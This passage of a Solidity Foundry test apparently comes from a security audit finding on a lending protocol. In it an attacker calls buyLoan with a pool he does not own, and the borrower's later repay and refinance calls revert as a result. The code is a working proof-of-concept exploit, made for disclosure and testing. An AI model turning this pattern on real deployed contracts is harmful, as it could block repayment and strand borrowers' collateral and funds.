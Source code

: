 ```solidity
            poolId: poolId0,
            debt: thousand,
            collateral: thousand
        });
        vm.prank(borrower);
        lender.borrow(borrows);

        // lender 1 start auction
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.prank(lender1);
        lender.startAuction(loanIds);

        vm.warp(block.timestamp + 12 hours);

        emit log("--- attacker `buyLoan` with a pool he doesn't own ---");
        vm.prank(attacker);
        lender.buyLoan(0, poolId1);

        {
            (,,,,uint256 oldPoolBalance,,,,uint256 oldPoolOutstandingLoans) = lender.pools(poolId0);
            emit log_named_uint("oldPoolBalance", oldPoolBalance);
            emit log_named_uint("oldPoolOutstandingLoans", oldPoolOutstandingLoans);

            (,,,,uint256 newPoolBalance,,,,uint256 newPoolOutstandingLoans) = lender.pools(poolId1);
            emit log_named_uint("newPoolBalance:", newPoolBalance);
            emit log_named_uint("newPoolOutstandingLoans", newPoolOutstandingLoans);
        }

        emit log("--- borrower `repay`: revert due to underflow ---");
        loanToken.mint(address(borrower), lender.getLoanDebt(0) - (thousand - (thousand * 50) / 10000));

        vm.prank(borrower);
        vm.expectRevert();
        lender.repay(loanIds);

        emit log("--- borrower `refinance` to other pool: revert --- ");
        // lender 3 set pool
        address lender3 = address(10);
        loanToken.mint(lender3, thousand * 3);
        vm.startPrank(lender3);
        loanToken.approve(address(lender), thousand * 3);
        bytes32 poolId2 = lender.setPool(Pool({
            lender: lender3,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: thousand,
            poolBalance: thousand * 3,
            maxLoanRatio: 1e18,
            auctionLength: 1 days,
            interestRate: 500,
            outstandingLoans: 0
        }));
        vm.stopPrank();

        Refinance[] memory refinances = new Refinance[](1);
        refinances[0] = Refinance({
            loanId: 0,
            poolId: poolId2,
            debt: thousand,
```